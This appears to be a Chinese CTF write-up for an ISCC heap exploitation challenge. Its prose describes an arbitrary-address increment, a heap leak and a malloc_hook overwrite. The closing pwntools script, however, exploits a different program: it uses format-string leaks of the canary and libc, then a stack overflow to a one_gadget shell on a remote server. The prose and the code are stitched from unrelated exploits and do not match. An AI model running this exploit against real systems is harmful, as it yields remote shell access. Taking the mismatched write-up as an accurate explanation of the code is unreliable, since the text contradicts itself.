




iscc练武题里面唯一还有点看头的。

程序有点复杂，这里就不去一一分析程序函数了。

程序分为两个系统，教师跟老师。

先讲一下教师系统，



教师系统能创建学生的信息，会有一个由1—9的分值被放入堆里。这个值会影响之后一样score随机值的范围。

然后教师系统还能在一个学生下创建一个size由自己控制的堆可以重复写入。但是输入的大小被记录，没有堆溢出。

之后查看free段，虽然只删掉了一个堆的指针。但是删掉的这个指针却是之后所有指针查找的主要路径。删掉一个就相当于删掉所有。



看到这个函数，结合之前申请堆都是用到的calloc函数，其实就已经知道要干啥了。大概率是要打malloc_hook了。

之后看学生系统，学生系统比较重要的函数有两个。



这个函数就是这个题想让我们利用的漏洞了，准确来说这个漏洞是故意的。任意地址加1加上堆地址泄露。

后面是我选择主要利用的任意地址读写的函数。



这个函数跟size类似，不过里面没有去存一些比较重要的地址不容易去破坏利用链。

其实这个题主要想考察的就是给你任意地址加一以及堆地址你如何去用。

还有一个函数我没有贴出来，主要就是在lazzy位上打上标志然后在给分数的时候-10。这个就是为了利用负数去绕过jang函数对分数的检查。因为我们输入1-9，是没办法去让score去随机到89以上的分数的。

原本我看见版本是2.31，是想利用任意地址加一去绕过key防护然后doublefree去实现任意地址写入。但是因为没有uaf，所以没法用。

之后，我看见了mode函数，于是想着可以利用mode函数去控制另一个mode函数的指针实现任意地址控制。只需要去控制两个mode之间的地址为0x100就行。

之后就是要完成泄露libc，可以利用jiang函数里面有一个是利用write函数打印堆上一个地址的值。但是由于程序开了pie，只能先利用任意地址写入去控制tcache函数的count数组，让一个size大块进入unsortedbin里面。

之后就是利用任意地址写入去打入malloc_ hook函数就行。

```
from pwn import *

context.arch = 'amd64'
r=remote('39.96.193.120',33334)
#r= process('./11')
libc = ELF('./libc.so')
puts_plt = 0x4010b0
puts_got = 0x404028
rdi = 0x4014a3
payload =b'%45$p'
r.sendafter(b'Please enter your customer ID:\n',payload)
r.recvuntil(b'Welcome, ')
canary = int(r.recvline().decode().strip(),16)
print(hex(canary))
r.sendlineafter(b'The item is limited to three per customer, please enter the quantity you need:',b'1')
r.send(b'1')

payload1 =b'%51$p'
r.sendafter(b'Please enter your customer ID:\n',payload1)
r.recvuntil(b'Welcome, ')
libc_addr = int(r.recvline().decode().strip(),16)
libc_base = libc_addr - 0x24083
gadget = libc_base + 0xe3b01
print(hex(libc_base))
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
r.sendlineafter(b'The item is limited to three per customer, please enter the quantity you need:',b'515')
payload2 = b'a'*0x108 + p64(canary) +p64(0)+p64(gadget)#p64(rdi) + p64(binsh) + p64(system)
r.send(payload2)
#gdb.attach(r)
#payload1 = b'a'*0x108 + p64(canary)+p64(0) + p64(rdi) + p64(puts_got) +p64(puts_plt)
#r.sendafter(b'Please enter the name of the product you need:',payload1) '''
r.interactive()
```

